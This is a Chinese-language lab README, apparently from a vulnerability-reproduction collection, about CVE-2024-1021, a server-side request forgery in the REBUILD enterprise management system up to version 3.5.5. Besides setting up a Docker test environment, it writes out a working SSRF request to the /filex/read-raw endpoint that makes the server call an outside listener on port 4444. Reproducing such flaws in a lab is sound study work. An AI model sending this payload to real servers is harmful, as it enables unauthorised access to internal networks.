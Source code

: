 # CVE-2024-1021 Rebuild管理系统 SSRF漏洞

[REBUILD](https://getrebuild.com/)（简称 RB）是一款高度可配置化的 [企业管理系统](https://baike.baidu.com/item/企业管理系统)，旨在帮助企业快速完成信息化建设，而无需高昂的研发成本投入。当遇到业务变化或需求变更时，可以通过系统本身提供的可配置化特性直接达成业务需求，而无需额外投入。通过 REBUILD 提供的各种配置化功能，您可以进行各种业务流程编排，灵活可靠。

在 Rebuild 至 3.5.5 版本中发现了一个被列为严重漏洞的漏洞。受此问题影响的是组件HTTP Request Handler的readRawText函数。对参数 url 的操纵会导致服务器端请求伪造。

项目下载地址：https://getrebuild.com/download

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-1021
- https://blog.csdn.net/shelter1234567/article/details/136171910?spm=1001.2014.3001.5501

## 漏洞环境

执行如下命令启动一个rebuild-3.5.5-web：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:80`跳转到rebuild安装向导页面。

![image-20240229174316691](./1.png)

连接mysql 数据库安装

![image-20240229185436397](./2.png)

## 漏洞复现

访问urlhttp://ip:80/filex/read-raw?url=http://192.168.116.128:4444&cut=1

![](https://img-blog.csdnimg.cn/direct/87e3912a729f4486b14a5a392e700d8f.png)

查看本地监听4444端口的结果

![](https://img-blog.csdnimg.cn/direct/efb52b9f94644c5598d44a0c4456d92f.png)
